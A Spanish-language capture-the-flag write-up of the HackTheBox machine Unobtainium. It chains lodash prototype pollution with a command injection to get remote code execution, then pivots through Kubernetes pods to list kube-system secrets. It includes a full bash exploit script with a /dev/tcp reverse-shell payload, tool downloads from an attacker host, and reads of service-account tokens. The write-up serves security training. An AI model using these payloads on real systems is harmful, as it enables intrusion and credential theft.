🔦 **<u>/upload</u>** - **¿user.canUpload?**

```js
app.post('/upload', (req, res) => {
  const user = findUser(req.body.auth || {});
  if (!user || !user.canUpload) {
    res.status(403).send({ok: false, error: 'Access denied'});
    return;
  }

  filename = req.body.filename;
  root.upload("./",filename, true);
  res.send({ok: true, Uploaded_File: filename});
});
```

Válida si el usuario que esta haciendo la petición trae consigo el ítem `canUpload` encendido, si sí, toma el valor de `filename` y lo sube al servidor a la ruta en la que esté el archivo `index.js`, o sea, si logramos subir un archivo podríamos ver su contenido con el feature `Todo` (:

Perfectoowowow, pues podríamos intentar jugar con ese objeto y el usuario **felamos** a ver si logramos subir o crear un archivo:

**Si hacemos peticiones hacia el recurso `/upload` sin el objeto**:

![338burp_unobtainium_upload_withoutCanUP](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/unobtainium/338burp_unobtainium_upload_withoutCanUP.png)

**Claramente no nos deja, ahora intentemos con el objeto `"canUpload":true`:**

![338burp_unobtainium_upload_withCanUP_fail](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/unobtainium/338burp_unobtainium_upload_withCanUP_fail.png)

Pero tampoco nos deja :( 

Probando y probando no logramos subir nada... Leyendo lo que hace la función `/upload` vemos que para el trámite usa una -función- de una de las librerías:

```js
var root = require("google-cloudstorage-commands");
...
...
  root.upload("./",filename, true);
...
```

Buscando info sobre ella (estaba buscando su uso, pero de los primeros resultados había uno que hablaba de vulnerabilidades :o) encontramos que es una librería deprecada yyyy que tiene una vulnerabilidad:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/unobtainium/338google_googleCloudStorage_commandInj.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Opa, curiosamente es el mismo formato que tenemos nosotros en el script. La vulnerabilidad es sencilla, una inyección de comandos por culpa de una mala sanitización (:

* [Command Injection - **google-cloudstorage-commands**](https://snyk.io/vuln/SNYK-JS-GOOGLECLOUDSTORAGECOMMANDS-1050431).

***La cosa es que este bug no nos permitirá <u>subir un archivo</u>, ya que no le indicara al servicio que nos active el objeto `canUpload`. Pero esta interesante tenerlo por si conseguimos asignarnos el objeto.***

Con la idea de mirar las librerías nos situamos ahora en [lodash](https://lodash.com/), que es usada en la creación del mensaje:

```js
const _ = require('lodash');
...
...
  _.merge(message, req.body.message, {
    id: lastId++,
    timestamp: Date.now(),
    userName: user.name,
  });
...
```

Ahí están los campos que vimos al hacer las 10 peticiones con el **for** y el mensaje es manipulado con `req.body.message`.

Algo que vemos es el uso de la función [merge()](https://lodash.com/docs/4.17.15#merge), que básicamente juega con tres objetos:

* (1) `message`.
* (2) `req.body.message`.
* (3) `id - timestamp - username`.

Y los usa para tomar las propiedades de los objetos `2` y `3` yyyyy heredárselos al objeto `1`, así de sencillo.

[Este es un ejemplo](https://masteringjs.io/tutorials/lodash/merge) que encontré:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/unobtainium/338google_mergeFunc_example.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Y esta sería una simulación de lo que pasa al crear el mensaje y como la variable `message` hereda el valor del mensaje que enviamos junto a los demás objetos:

![338google_mergeFunc_simulationMessage](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/unobtainium/338google_mergeFunc_simulationMessage.png)

Perfecto, sabemos como se genera toooda la trama que vemos al crear un mensaje (:

...

## Prototype Pollution en <u>lodash.merge</u> para asignar <u>canUpdate</u> al usuario <u>felamos</u> [📌](#prototype-pollution) {#prototype-pollution}

La cosa es que buscando info sobre **merge()** y si existen vulnerabilidades para ella nos damos cuenta de que sí, existen cositas para jugar...

* [Prototype Pollution -  **lodash.merge**](https://snyk.io/vuln/SNYK-JS-LODASHMERGE-173732).

La [contaminación de prototipos](https://portswigger.net/daily-swig/prototype-pollution-the-dangerous-and-underrated-vulnerability-impacting-javascript-applications) se basa en la inyección de propiedades dentro de -prototipos- existentes en JS, como pueden ser los **objetos**.

Cuando un objeto es creado va a contener propiedades y métodos necesarios de un prototipo (ya que JS esta basado en prototipos), esos prototipos contienen atributos "mágicos" o "esenciales" tales como `_proto_`, `constructor` y `prototype`. Lo que pasa es que **JS** permite que esos atributos sean alterados, esto (por culpa de **merge()**) le da la mano al atacante (a nosotros) de sobreescribir o contaminar objetos de la aplicación 🤯

Nos guiaremos de este recurso para probar la contaminación:

* [Demonstration of **_.merge** pollution vulnerability](https://github.com/kimmobrunfeldt/lodash-merge-pollution-example).

Lo que hace es subir un archivo que contiene el atributo -mágico- `_proto_` con el objeto que quiere contaminar, o sea, cambiar. 

Sube `attack.json`:

![338google_pollution_attackJSON](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/unobtainium/338google_pollution_attackJSON.png)

Muy sencillo, al usuario `john.doe@mail.com` le asigna el objeto `admin`...

Nosotros podríamos probar a asignar `canUpdate` al usuario **felamos** usando el mismo atributo e intentar **subir (`/upload`)** algún archivo 👀:

![338burp_unobtainium_upload_pollution_withCanUP_fail](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/unobtainium/338burp_unobtainium_upload_pollution_withCanUP_fail.png)

Pero no, espero que alguno sepa ya el porqué... :P

Básicamente es porque la función vulnerable (`merge()`) esta en la creación del mensaje y no en la subida del archivo, entonces primero debemos contaminar el objeto para luego ahí si probar si se nos asignó el poder de subir archivos (:

Creamos mensaje maligno :P

![338burp_unobtainium_message_pollution_withCanUP](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/unobtainium/338burp_unobtainium_message_pollution_withCanUP.png)

Y ahora intentamos subir un archivoooooooooooooooooooooooooooooo:

![338burp_unobtainium_upload_pollution_withCanUP_done](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/unobtainium/338burp_unobtainium_upload_pollution_withCanUP_fail.png)

PERFECTOOOOOOOOOO, podemos subir archivoooooooooooslsssssssslakdjflasdflasjdfl (:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/unobtainium/338google_gif_letsgodrake.gif" style="display: block; margin-left: auto; margin-right: auto; width: 60%;"/>

Intentando ver el archivo (que no tiene contenido :P) el servidor se muere e.e

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/unobtainium/338burp_unobtainium_todo_pollution_holaTXT.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Peeeero tooodos tranquilos, recordemos nuestra vulnerabilidad con `google-cloudstorage-commands`.

...

## RCE = Prototype Pollution (<u>lodash.merge</u>) + Command Injection (<u>google-cloudstorage</u>) [📌](#prototype-pollution-rce) {#prototype-pollution-rce}

Ya podemos crear archivos, tenemos la posibilidad de pasarle el nombre del archivo, veamos como era la inyección de comandos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/unobtainium/338google_googleCloudStorage_commandInjCut.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Simplemente debemos colocar: 

```js
& <comando_que_queremos_ejecutar>
```

Va a tomar un nombre vacío y después ejecutaría el comando, aún no hemos comprobado que funcione, pero pa eso estamos, ¿no? a veeeeeeeeer:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/unobtainium/338burp_unobtainium_upload_pollution_idINholaTXT.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Lo que queremos es que tome el resultado del comando `id` y lo guarde en el archivo `hola.txt`, así validamos su contenido con **Todo**, el archivo se creó, por lo que esperamos que se haya ejecutado el comando, validemos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/unobtainium/338burp_unobtainium_todo_pollution_idINholaTXT.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Yyyyyyyy sí, **tenemos ejecución remota de comandosssssss**, que bestialidad esooooooooo, me encantoooooooooooooooo...

Pues aprovechemonos de esto para entablarnos una Reverse Shell.

Nos ponemos en escucha: 

```bash
❱ nc -lvp 4433
```

Y ejecutamos:

![338burp_unobtainium_upload_pollution_revsh](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/unobtainium/338burp_unobtainium_upload_pollution_revsh.png)

Revisamos nuestro listener yyyyyyyyyyyyyyyyyyyyy:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/unobtainium/338bash_nc_pollutionRevSH.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Sip, es bastante fea jajaj, hacemos un tratamiento de TTY superrápido y tamos listos pa seguir (:

* [https://lanzt.gitbook.io/cheatsheet-pentest/tty](https://lanzt.gitbook.io/cheatsheet-pentest/tty).

Estamos en un contenedor (: y en él tenemos acceso a la flag de usuario `user.txt`.

...

Con ayuda de **Python** creamos un script que ya sea, nos ejecuta algunos comandos remotamente o nos entabla una Shell en el propio script, ahí se los dejo (:

> [pollutionRCE.py](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/unobtainium/pollutionRCE.py)

...

# docker-webapp -> docker-devnode [#](#lateral-webapp-devnode) {#lateral-webapp-devnode}

Estando dentro encontramos poquitas cosas, enumerando las variables de entorno tenemos algunas referencias a **Kubernetes**:

```bash
root@webapp-deployment-5d764566f4-mbprj:/tmp/testeee$ env
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/unobtainium/338bash_pollutionSH_env.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

La aplicación en `10.96.137.170:3000` fue la que explotamos. Nos llama la atención `10.96.0.1:443`, jugando con `cURL` nos responde:

```bash
root@webapp-deployment-5d764566f4-mbprj:/tmp/testeee$ curl -k https://10.96.0.1:443
```

```json
{
  "kind": "Status",
  "apiVersion": "v1",
  "metadata": {
    
  },
  "status": "Failure",
  "message": "forbidden: User \"system:anonymous\" cannot get path \"/\"",
  "reason": "Forbidden",
  "details": {
    
  },
  "code": 403
}
```

Jmmm... Investigando sobre **Kubernetes** encontramos cositas interesantes:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/unobtainium/338google_necesidadkubernetes.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

> Tomada de: [docker-a-kubernetes](https://www.xataka.com/otros/docker-a-kubernetes-entendiendo-que-contenedores-que-mayores-revoluciones-industria-desarrollo).

Y si, ahí entra **Kubernetes**:

En pocas palabras es un gestionador de contenedores (el "maestro de orquesta"), ayuda a reunir tooodos los contenedores y armar clústeres (para que trabajen como si fueran uno), ya teniéndolos es muuuucho más sencillo el administrarlos, implementarlos y escalarlos.

* [kubernetes.io - What is **Kubernetes**](https://kubernetes.io/es/docs/concepts/overview/what-is-kubernetes/).
* [azure.microsoft.com - What is **Kubernetes**](https://azure.microsoft.com/es-es/topic/what-is-kubernetes/).
* [redhat.com - What is **Kubernetes**](https://www.redhat.com/es/topics/containers/what-is-kubernetes).

Buscando como podemos comunicarnos con **Kubernetes** llegamos a [este recurso](https://kubernetes.io/docs/tasks/run-application/access-api-from-pod/#without-using-a-proxy):

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/unobtainium/338google_accessAPI_curl.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Validando si tenemos los archivos necesarios vemos que si:

```bash
root@webapp-deployment-5d764566f4-mbprj:/var/run/secrets/kubernetes.io/serviceaccount$ ls
ca.crt  namespace  token
```

---

## Jugando con la <u>API</u> y con <u>kubectl</u> [📌](#expl-webapp-api-kubectl) {#expl-webapp-api-kubectl}

Así que generemos esas variables e intentemos de nuevo usar `cURL`:

```bash
root@webapp-deployment-5d764566f4-mbprj:~$ APISERVER=https://10.96.0.1:443
root@webapp-deployment-5d764566f4-mbprj:~$ SERVICEACCOUNT=/var/run/secrets/kubernetes.io/serviceaccount
root@webapp-deployment-5d764566f4-mbprj:~$ TOKEN=$(cat ${SERVICEACCOUNT}/token)
root@webapp-deployment-5d764566f4-mbprj:~$ CACERT=${SERVICEACCOUNT}/ca.crt
```

Intentamos la petición hacia la **API**:

```bash
root@webapp-deployment-5d764566f4-mbprj:/$ curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api
```

```json
{
  "kind": "APIVersions",
  "versions": [
    "v1"
  ],
  "serverAddressByClientCIDRs": [
    {
      "clientCIDR": "0.0.0.0/0",
      "serverAddress": "10.10.10.235:8443"
    }
  ]
}
```

Bien, peeeeeeeeeeeeerfecto.

Vemos que externamente la API esta en el puerto **8443**, por lo que podemos asignar las mismas variables (moviéndonos el archivo `token` y `cacert`) en nuestra máquina y debería funcionar (:

Ya que nos podemos comunicar con la **API** empezaríamos a buscar cositas y ver como aprovecharnos de ellas...

* [Conceptos y arquitectura de **Kubernetes**](https://book.hacktricks.xyz/pentesting/pentesting-kubernetes#architecture).

...

En [este post](https://www.elladodelmal.com/2019/01/hacking-kubernetes-auditoria-de.html) usan una herramienta llamada [Kube-Hunter](https://github.com/aquasecurity/kube-hunter) que se encarga de encontrar posibles vulnerabilidades en **Kubernetes**, descargándola, moviéndola a la máquina y ejecutando solo nos muestra una vulnerabilidad:

```bash
root@webapp-deployment-5d764566f4-mbprj:/tmp/testeee$ ./kube-hunt --cidr 10.96.0.1
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/unobtainium/338bash_pollutionSH_kubeHunter.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Donde únicamente nos reporta una versión, pero dando vueltas con ella no logramos nada :'(

En nuestra búsqueda llegamos ahora a [este post](https://www.cyberark.com/resources/threat-research-blog/kubernetes-pentest-methodology-part-1), acá juega con la **API** mediante `cURL` y una herramienta llamada `kubectl`, que curiosamente el sistema tiene una tarea programa para en caso de encontrarlo, borrarlo:

```bash
root@webapp-deployment-5d764566f4-mbprj:/tmp/testeee$ crontab -l
* * * * * find / -name kubectl -exec rm {} \;
```

Así que puede ser importante, pero veamos primero lo de `cURL`:

⚡ (***<u>Voy a simplificar el output, así que nos quedaremos con que estamos en</u> `<devnode>`***)

```bash
<devnode>$ curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/kube-system/secrets
```

Pero nos devuelve que no tenemos acceso a ese recurso como nuestro usuario ): peeeeero, ¿y si quitamos `secrets`?

```bash
<devnode>$ curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/kube-system
```

![338bash_pollutionSH_API_names_kubeSystem](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/unobtainium/338bash_pollutionSH_API_names_kubeSystem.png)

Lindo, empezamos a encontrar rutas que nos devuelven algo distinto a **Forbidden**, así que tamos bieeeeen...

Estamos sobre un cluster llamado `kube-system`, si vamos hacia atras intentando listar los "[espacios de nombres](https://kubernetes.io/es/docs/concepts/overview/working-with-objects/namespaces/)" (clusters virtuales) encontramos uno llamativo:

```bash
<devnode>$ curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces
```

```json
{
  "kind": "NamespaceList",
  "apiVersion": "v1",
  "metadata": {
    "resourceVersion": "65796"
  },
  "items": [
    {
      "metadata": {
        "name": "default",
    ...
      "metadata": {
        "name": "dev",
    ...
      "metadata": {
        "name": "kube-node-lease",
    ...
      "metadata": {
          "name": "kube-public",
    ...
      "metadata": {
          "name": "kube-system",
...
```

¿Cuál? Pos si, `dev`:

```bash
<devnode>$ curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/dev
```

Pero no vemos nada relevante, simplemente que ese `namespace` me sonó extraño y podemos tenerlo en cuenta por si algo...

...

Jugando con [kubelet](https://kubernetes.io/es/docs/tasks/tools/install-kubectl/) nos es más sencillo movernos, así que siguiendo [esta guía](https://kubernetes.io/es/docs/tasks/tools/install-kubectl/) logramos descargarlo, lo subimos a la máquina (recuerden cambiarle el nombre, si no, el sistema lo borra) y empezamos a probar cositas:

```bash
root@webapp-deployment-5d764566f4-mbprj:/tmp/testeee$ curl http://10.10.14.146:8000/kubectl -o kubito
```

> [Siguiendo este **Cheat Sheet**](https://kubernetes.io/docs/reference/kubectl/cheatsheet/) de **kubectl** encontramos el uso de varios comandos.

Vamos viendo de manera más sencilla lo que habíamos encontrado con `cURL`, por ejemplo para ver los "espacios de nombre" simplemente ejecutamos:

```bash
root@webapp-deployment-5d764566f4-mbprj:/tmp/testeee$ ./kubito get namespaces
NAME              STATUS   AGE
default           Active   167d
dev               Active   167d
kube-node-lease   Active   167d
kube-public       Active   167d
kube-system       Active   167d
```

Vemos a `dev`, que (despues de algunas pruebas) es el unico en el que tenemos "permisos" para leer cositas distintas a los demás:

> Validamos lo que podemos hacer contra cada `namespace`...

(Cambiamos `-n` por cada uno: **default**, **kube-node-lease**, **kube-public** y **kube-system**):

```bash
root@webapp-deployment-5d764566f4-mbprj:/tmp/testeee$ ./kubito auth can-i --list -n default        
Resources                                       Non-Resource URLs                     Resource Names   Verbs
selfsubjectaccessreviews.authorization.k8s.io   []                                    []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                                    []               [create]
namespaces                                      []                                    []               [get list]
...
```

**En los 4 podemos ver los `namespaces` (tenemos el mismo output)**, pero con `dev` podemos listar los **pods**:

> **Pod** es un grupo de uno (aunque sea uno se le llama grupo) o más contenedores dentro de un `namespace`.

```bash
root@webapp-deployment-5d764566f4-mbprj:/tmp/testeee$ ./kubito auth can-i --list -n dev    
Resources                                       Non-Resource URLs                     Resource Names   Verbs
selfsubjectaccessreviews.authorization.k8s.io   []                                    []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                                    []               [create]
namespaces                                      []                                    []               [get list]
pods                                            []                                    []               [get list]
...
```

Pues echemos un ojo:

```bash
root@webapp-deployment-5d764566f4-mbprj:/tmp/testeee$ ./kubito get pods -n dev    
NAME                                READY   STATUS    RESTARTS   AGE
devnode-deployment-cd86fb5c-6ms8d   1/1     Running   28         167d
devnode-deployment-cd86fb5c-mvrfz   1/1     Running   29         167d
devnode-deployment-cd86fb5c-qlxww   1/1     Running   29         167d
```

Bien, encontramos 3 **pods**, podemos ver una descripción de cada uno usando `describe`, por ejemplo veamos la de `devnode-deployment-cd86fb5c-6ms8d`:

```bash
<devnode>$ ./kubito describe pod devnode-deployment-cd86fb5c-6ms8d -n dev
```

> Es gigante el output :P

```yml
Name:         devnode-deployment-cd86fb5c-6ms8d
Namespace:    dev
Priority:     0
Node:         unobtainium/10.10.10.235
Start Time:   Sun, 17 Jan 2021 18:16:21 +0000
Labels:       app=devnode
              pod-template-hash=cd86fb5c
Annotations:  <none>
Status:       Running
IP:           172.17.0.4
IPs:
  IP:           172.17.0.4
Controlled By:  ReplicaSet/devnode-deployment-cd86fb5c
Containers:              
  devnode:               
    Container ID:   docker://d12ba992b0492f26740ce2664c04a232b9324d5f6c745098b1375682fd16b6c3
    Image:          localhost:5000/node_server
    Image ID:       docker-pullable://localhost:5000/node_server@sha256:f3bfd2fc13c7377a380e018279c6e9b647082ca590600672ff787e1bb918e37c
    Port:           3000/TCP
    Host Port:      0/TCP
    State:          Running
      Started:      Fri, 02 Jul 2021 05:41:11 +0000
    Last State:     Terminated
      Reason:       Error
      Exit Code:    137
      Started:      Wed, 24 Mar 2021 16:01:28 +0000
      Finished:     Wed, 24 Mar 2021 16:02:13 +0000
    Ready:          True
    Restart Count:  28
    Environment:    <none>
    Mounts:
      /var/run/secrets/kubernetes.io/serviceaccount from default-token-rmcd6 (ro)
Conditions:
  Type              Status
  Initialized       True
  Ready             True
  ContainersReady   True
  PodScheduled      True
Volumes:
  default-token-rmcd6:
    Type:        Secret (a volume populated by a Secret)
    SecretName:  default-token-rmcd6
    Optional:    false
QoS Class:       BestEffort
Node-Selectors:  <none>
Tolerations:     node.kubernetes.io/not-ready:NoExecute op=Exists for 300s
                 node.kubernetes.io/unreachable:NoExecute op=Exists for 300s
Events:          <none>
```

(Lo único que cambia entre los 3 es la dirección **IP** en la que están sirviendo:

```bash
* devnode-deployment-cd86fb5c-6ms8d : 172.17.0.4
* devnode-deployment-cd86fb5c-mvrfz : 172.17.0.5
* devnode-deployment-cd86fb5c-qlxww : 172.17.0.7
```

(Sí, sé lo que puedes estar pensando, tranqui, ya verás)

...

## Explotando y molestando al contenedor: <u>Prototype Pollution + Command Injection</u> [📌](#expl-webapp-bash-pollution) {#expl-webapp-bash-pollution}

Leyendo las descripciones con detenimiento (porque es con lo único con lo que podemos jugar) vemos que los contenedores están sirviendo en el puerto **3000** un servidor de node, que después de validar su respuesta recordé nuestra explotación inicial hacia el servidor **node**:

```bash
root@webapp-deployment-5d764566f4-mbprj:/tmp/testeee$ curl http://172.17.0.4:3000; echo
[]
root@webapp-deployment-5d764566f4-mbprj:/tmp/testeee$ curl http://172.17.0.5:3000; echo
[]
root@webapp-deployment-5d764566f4-mbprj:/tmp/testeee$ curl http://172.17.0.6:3000; echo
curl: (7) Failed to connect to 172.17.0.6 port 3000: Connection refused
root@webapp-deployment-5d764566f4-mbprj:/tmp/testeee$ curl http://172.17.0.7:3000; echo
[]
```

La respuesta es nada, pero podemos intentar jugar con algún servidor de los 3 que hay para ver si estamos ante el mismo servicio que explotamos anteriormente (node), para esto mandemos un mensaje (como los que ya hicimos), solo que acá debemos usar `cURL`:

Juguemos con `http://172.17.0.5:3000`:

```bash
<devnode>$ curl -s -H 'Content-Type: application/json' -X PUT -d '{"auth":{"name":"felamos","password":"Winter2021"},"message":{"text":"holaaaaa"}}' http://172.17.0.5:3000
{"ok":true}
```

Al parecer nos dejó, por lo que vamos tirando a que efectivamente es el mismo servicio, comprobemos que se subió el mensaje:

```bash
root@webapp-deployment-5d764566f4-mbprj:/tmp/testeee$ curl http://172.17.0.5:3000; echo
[{"icon":"__","text":"holaaaaa","id":1,"timestamp":1625437769543,"userName":"felamos"}]
```

Perfecto, pues estamos ejecutando el mismo servicio de antes (:

> **Perdi mucho tiempo al no centrarme en esto, es claro el *path* pero en su momento no lo vi :P**

Seguí enumerando y enumerando y nada, full perdido, así que me fui a buscar ayuda, esta fue la pista:

> "Piensa en `webapp` como `devnode`"...

Dando vueltas con ella caí en cuenta de algo al mirar la terminal y al leer lo que habíamos hecho hace un momento con `cURL` y el servidor node:

```bash
root@webapp-deployment-5d764566f4-mbprj:/tmp/testeee$
```

**webapp-deployment** esta en nuestro hostname yyyyyyy si miramos la descripción de algún **pod** vemos **devnode-deployment** en su nombre, podemos pensar que estamos situados en algún contenedor del **pod** que encierra a la aplicación web (`webapp`), por lo que si existen otros contenedores que (según su nombre) hacen referencia a entornos de desarrollo (`devnode`), probablemente debamos movernos a alguno de ellos :o APAAAA, entiendo tu PISTAAAaaAAAAa.

Peeeeero ¿y como nos movemoooooooos? :(

Pues acá entra en juego lo que habíamos probado con `cURL` y los servidores node internos, ya que ellos están sirviendo desde contenedores llamados `devnode-deployment...` y nosotros estamos sobre contenedores llamados `webapp-deployment...`. Por lo que simplemente deberíamos volver a ejecutar nuestra explotación, pero contra algún servidor **node** interno (:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/unobtainium/338google_gif_woooooow.gif" style="display: block; margin-left: auto; margin-right: auto; width: 60%;"/>

Podemos crear un script en `bash` que nos haga la gestión muuuucho más rápido y sea estético, así evitamos tener que estar limpiando la terminal por culpa de los comandos `cURL` tan largos :P (además de practicar nuestro scripting en bash).

```bash
#!/bin/bash

# CTRL + C
function ctrl_c() {
    echo "s4l1eNdo..."
}
trap ctrl_c INT

# ---- Funciones del programa

todo_data() {
    cat <<EOF
    {
        "auth": {
            "name": "felamos",
            "password": "Winter2021"
        },
        "filename": "todo.txt"
    }
EOF
}

upload_data() {
    cat <<EOF
    {
        "auth": {
            "name": "felamos",
            "password": "Winter2021"
        },
        "filename": "& bash -c 'bash >& /dev/tcp/$1/$2 0>&1'"
    }
EOF
}

message_data() {
    cat <<EOF
    {
        "auth": {
            "name": "felamos",
            "password": "Winter2021"
        },
        "message": {
            "text": "holadenuevorey",
            "__proto__": {
               "canUpload": "true"
            }
        }
    }
EOF
}

# ---- Variables globales

URL="$1"
IP="$2"
PORT="$3"

# ---- Inicio del programa

if [ -z $URL ] || [ -z $IP ] || [ -z $PORT ]; then
    echo -e "\n[!] Uso: $0 http://node_server lhost lport"
    echo -e "Ejemplo: $0 http://10.10.10.235:31337 10.10.14.146 4433\n"
    exit 1
else
    # Asignamos objeto `canUpload`
    curl -s -H "Content-Type: application/json" -X PUT -d "$(message_data)" $URL > /dev/null

    # Subimos archivo con comando
    curl -s -H "Content-Type: application/json" -X POST -d "$(upload_data $IP $PORT)" $URL/upload > /dev/null
    echo -e "\n[+] Reverse Shell Generada!!\n"
fi
```

> [insidePollutionRCE.sh](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/unobtainium/insidePollutionRCE.sh)

Les dejo el script por si quieren jugar con él, la explotación es totalmente igual a la que hicimos, solo que en este caso jugamos con instrucciones de `bash`.

> **Tienen que validar que la IP que pongan exista, ya que se generan aleatoriamente y pueda que antes de un reset exista la `172.17.0.5` pero después no.**

(El script genera de una vez una **Reverse Shell**)

Lo movemos a la máquina, nos ponemos en escucha y ejecutamos de nuevo contra el servidor `http://172.17.0.5:3000`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/unobtainium/338bash_devnodeSH_done.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

PERFECTISIMOOOOOOOOOOOOOOOOOOOOOOO, tamos ahora en uno de los contenedores del **pod** `dev`, que lindura :3

...

# Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

...

## Encontramos token -secreto- del <u>admin</u> y obtenemos interacción total con <u>Kubernetes</u> [📌](#lateral-tokenadmin-found) {#lateral-tokenadmin-found}

Enumerando el sistema no encontramos nada distinto a los contenedores de `webapp`...

Contamos de nuevo con los archivos para hablar con la API**:

```bash
root@devnode-deployment-cd86fb5c-mvrfz:/var/run/secrets/kubernetes.io/serviceaccount$ ls  
ca.crt  namespace  token
```

Así que podemos intentar ver si ahora tenemos algún permiso distinto o si descartamos que sea por acá. 

En vez de jugar con `cURL` subamos "`kubito`" que ya sabemos que vamos a obtener la misma info pero con un output más estético :D

```bash
root@devnode-deployment-cd86fb5c-mvrfz:/tmp/testao$ curl http://10.10.14.146:8000/kubectl -o kubito
```

Jugando, jugando y jugando encontramos algo destino al probar de nuevo el subcomando `auth can-i` contra el **namespace** `kube-system`:

```bash
root@devnode-deployment-cd86fb5c-mvrfz:/tmp/testao$ ./kubito auth can-i --list -n kube-system
Resources                                       Non-Resource URLs                     Resource Names   Verbs
selfsubjectaccessreviews.authorization.k8s.io   []                                    []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                                    []               [create]
secrets                                         []                                    []               [get list]
...
```

Podemos listar secretos de ese **nombre de espacio**...

🛳️ ***`Secret`: This is the place to store secret data like passwords, API keys, creds, etc. encoded in B64.*** [hacktricks](https://book.hacktricks.xyz/pentesting/pentesting-kubernetes#kubernetes-secrets).

Perfecto, para listarlos podemos apoyarnos del subcomando `get secrets`:

```bash
root@devnode-deployment-cd86fb5c-mvrfz:/tmp/testao$ ./kubito get secrets -n kube-system       
NAME                                             TYPE                                  DATA   AGE
attachdetach-controller-token-5dkkr              kubernetes.io/service-account-token   3      169d
bootstrap-signer-token-xl4lg                     kubernetes.io/service-account-token   3      169d
c-admin-token-tfmp2                              kubernetes.io/service-account-token   3      168d
certificate-controller-token-thnxw               kubernetes.io/service-account-token   3      169d
clusterrole-aggregation-controller-token-scx4p   kubernetes.io/service-account-token   3      169d
coredns-token-dbp92                              kubernetes.io/service-account-token   3      169d
cronjob-controller-token-chrl7                   kubernetes.io/service-account-token   3      169d
daemon-set-controller-token-cb825                kubernetes.io/service-account-token   3      169d
default-token-l85f2                              kubernetes.io/service-account-token   3      169d
deployment-controller-token-cwgst                kubernetes.io/service-account-token   3      169d
disruption-controller-token-kpx2x                kubernetes.io/service-account-token   3      169d
endpoint-controller-token-2jzkv                  kubernetes.io/service-account-token   3      169d
endpointslice-controller-token-w4hwg             kubernetes.io/service-account-token   3      169d
endpointslicemirroring-controller-token-9qvzz    kubernetes.io/service-account-token   3      169d
expand-controller-token-sc9fw                    kubernetes.io/service-account-token   3      169d
generic-garbage-collector-token-2hng4            kubernetes.io/service-account-token   3      169d
horizontal-pod-autoscaler-token-6zhfs            kubernetes.io/service-account-token   3      169d
job-controller-token-h6kg8                       kubernetes.io/service-account-token   3      169d
kube-proxy-token-jc8kn                           kubernetes.io/service-account-token   3      169d
namespace-controller-token-2klzl                 kubernetes.io/service-account-token   3      169d
node-controller-token-k6p6v                      kubernetes.io/service-account-token   3      169d
persistent-volume-binder-token-fd292             kubernetes.io/service-account-token   3      169d
pod-garbage-collector-token-bjmrd                kubernetes.io/service-account-token   3      169d
pv-protection-controller-token-9669w             kubernetes.io/service-account-token   3      169d
pvc-protection-controller-token-w8m9r            kubernetes.io/service-account-token   3      169d
replicaset-controller-token-bzbt8                kubernetes.io/service-account-token   3      169d
replication-controller-token-jz8k8               kubernetes.io/service-account-token   3      169d
resourcequota-controller-token-wg7rr             kubernetes.io/service-account-token   3      169d
root-ca-cert-publisher-token-cnl86               kubernetes.io/service-account-token   3      169d
service-account-controller-token-44bfm           kubernetes.io/service-account-token   3      169d
service-controller-token-pzjnq                   kubernetes.io/service-account-token   3      169d
statefulset-controller-token-z2nsd               kubernetes.io/service-account-token   3      169d
storage-provisioner-token-tk5k5                  kubernetes.io/service-account-token   3      169d
token-cleaner-token-wjvf9                        kubernetes.io/service-account-token   3      169d
ttl-controller-token-z87px                       kubernetes.io/service-account-token   3      169d
```

